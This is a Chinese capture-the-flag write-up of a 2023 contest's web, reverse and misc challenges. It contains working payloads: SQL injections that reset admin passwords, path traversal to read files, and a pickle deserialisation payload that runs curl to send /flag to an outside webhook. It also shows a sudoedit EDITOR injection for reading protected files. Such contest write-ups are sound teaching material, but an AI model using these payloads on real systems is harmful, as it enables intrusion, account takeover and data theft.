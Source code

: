 
# web
### qqcms
后台登录是预编译

---
搜索框处存在sql注入
`Search=%3FSearch%3D%7B%7Bloop+sql%3D%27update+qc_user+set+Password%3Dmd5%281%29%27%7D%7DAhisec%7B%7B%2Floop%7D%7D/admin/templates/edit.html?Name=../../../../../flag`

### php_again
> 要进入某个case,需要给action参数传递相应的数字和进制。case后面的数字表示:
> 
> 0_0: 数字0,表示十进制
> 0o0_111: 0o表示八进制,0o0_111表示八进制的73
> 0b0_111: 0b表示二进制,0b0_111表示二进制的7
> 0x0_555: 0x表示十六进制,0x0_555表示十六进制的555 1365
> 777_777: 十进制数字777_777

### phpstudy
`admin'; UPDATE ADMINS set PASSWORD ='d48be00285a53681ece5c64b104d66b7';-- `
修改密码进入后台,记得带上请求头 `X-Requested-With:XMLHttpRequest` 这样会被认为是ajax请求而直接访问后台

### easypy
#pickle   [相关文章](https://xz.aliyun.com/t/7436#toc-11)
扫描目录在 `/download` 下载源码,pyc需要反编译

```python
def girlfriends():
    if request.values.get('data'):
        data = request.values.get('data')
        numpydata = base64.b64decode(data)
        if b'R' in numpydata and b'bash' in numpydata or b'sh' in numpydata:
            return '不能走捷径啊'
        resp = None.loads(numpydata)
        return '可以的，要的就是一种感觉'
```

需要使用opcode执行命令

```python
import base64
import pickle


opcode=b'''(S'curl https://webhook.site/cf6b9f19-3b8a-4f5f-83e4-3d362b8a1304?`base64 /flag`'
ios
system
.'''

print(base64.b64encode(opcode))
```

### call


### ezrust
> 听说rust反汇编代码很难看？那就看看给了源码的rust代码好看吗？（flag在work目录）

```rust
use actix_files::NamedFile;
use actix_web::{App, HttpRequest, HttpResponse, HttpServer, Responder, Result, web, get, post, guard};
use std::path::PathBuf;


async fn index(req: HttpRequest) -> Result<NamedFile> {
    let mut path: PathBuf = req.match_info().query("filename").parse().unwrap();
    if path.to_str().expect("REASON").to_string().contains("p") {
        path = PathBuf::from("no");
    }
    Ok(NamedFile::open(path)?)
}

#[get("/")]
async fn hello() -> impl Responder {
    HttpResponse::Ok().body("Hello world!")
}

#[get("/{name}")]
async fn name(path: web::Path<(String)>) -> Result<String> {
    let name = path.into_inner();
    Ok(format!("Welcome {}!", name))
}


#[actix_web::main]
async fn main() -> std::io::Result<()> {
    HttpServer::new(|| {
        App::new()
            .service(hello)
            .service(name)
            .route("/{filename:.*}", web::get().to(index))
    })
        .bind(("0.0.0.0", 8000))?
        .run()
        .await
}
```

路由有三个

| 路由           | 匹配        |
| -------------- | ----------- |
| /              | 根目录      |
| {name}         | 任意        |
| {filename:.\*} | /除换行以外 |
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230604140624.png)
读取漏洞,浏览器会自动吞掉.或者用postman


# reverse
### sum
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // rbp
  int v4; // r14d
  unsigned int v5; // r12d
  __int64 i; // rbx
  char v7; // al
  int v8; // eax
  const char *v9; // rax

  v3 = (char *)&matrix;
  v4 = 1;
  v5 = 0;
  puts("Welcome to Solver!");
  do
  {
    for ( i = 0LL; i != 9; ++i )
    {
      if ( !v3[i] )     //待填区
      {
        v7 = getchar();
        if ( (unsigned __int8)(v7 - 49) > 8u )
          v4 = 0;
        else
          v3[i] = v7 - 48;
      }
      v8 = v3[i];
	  v5 += v8;     //v5是所有数之和
    }
    v3 += 9;
  }
  while ( v3 != (char *)&matrix + 81 );
  if ( v4 && (unsigned int)verify("Welcome to Solver!", argv) ) //验证数独
  {
    puts("You Win!");
    __snprintf_chk(buf, 32LL, 1LL, 32LL, "%d", v5);   
    v9 = (const char *)str2md5(buf, strlen(buf));//计算v5的md5,
    __printf_chk(1LL, "flag is: flag{%s}\n\n", v9);
    exit(0);
  }
  puts("Again~");
  return 0;
}
```

---
没想到是数独题
可以直接计算405的md5值

### Emoji Connect
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230701191734.png)

是Excel的插件

### Pytrans
64位elf

# pwn

# crypto

# Misc
### Sudo
*世态炎凉,misc也有提权了*
#sudo
[参考](https://blog.csdn.net/weixin_46944519/article/details/129971508)
`sudo -l`
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230515234227.png)
可以使用`sudoedit`

payload
`EDITOR='nano -- /flag' sudoedit /etc/GAMELAB`


在之前的环境中注入额外的双破折号时，这种行为会导致混乱用于查找编辑器的变量。
`EDITOR='vim -- /path/to/extra/file'`
使用这个值，命令行将被解析为:

`vim -- /path/to/extra/file -- /path/from/policy`


Sudo:
1.8.0~1.9.12p1均受影响


---
## *相关wp*
http://twe1v3.top/2023/05/2023%E6%98%A5%E7%A7%8B%E6%9D%AF%E6%98%A5%E5%AD%A3%E8%B5%9B-Writeup/#qqcms
https://www.cnblogs.com/backlion/p/17459760.html


2023-05-12   17:44